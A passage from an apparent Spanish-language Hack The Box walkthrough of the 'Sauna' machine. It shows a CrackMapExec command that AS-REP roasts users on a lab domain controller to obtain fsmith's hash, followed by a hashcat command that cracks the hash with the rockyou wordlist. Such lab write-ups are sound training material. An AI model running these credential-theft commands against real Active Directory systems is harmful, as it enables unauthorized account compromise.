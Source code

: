 ## CrackmapExec

* ```cme ldap 10.10.10.175 -u users.txt -p '' --asreproast hashes.txt --kdcHost 10.10.10.175```

![](/images/HTB/Sauna/28-asreproast-cme.png)

De todos los usuarios en la lista, solo el user **fsmith** es vulnerable a **asreproast** y se obtiene su hash.

# Ganando Acceso - user fsmith

Ambos hashes serán válidos y podrán ser crackeados por ambas herramientas mencionadas anteriormente. En esta ocasión utilizaremos **hashcat**.

Para descubrir que módo se debe utilizar, podemos listar los hashes de ejemplo con ```--example-hashes``` y filtrar por la cadena de inicio del hash.

![](/images/HTB/Sauna/30-hashcat.png)

Ahora, consultando el panel de ayuda ```hashcat -h``` vemos un ejemplo de ejecución utilizando un wordlist.

![](/images/HTB/Sauna/35-hashcat-help.png)

Entonces tendríamos lo siguiente:

* ```hashcat -a 0 -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt```

![](/images/HTB/Sauna/40-hascat-cracked.png)
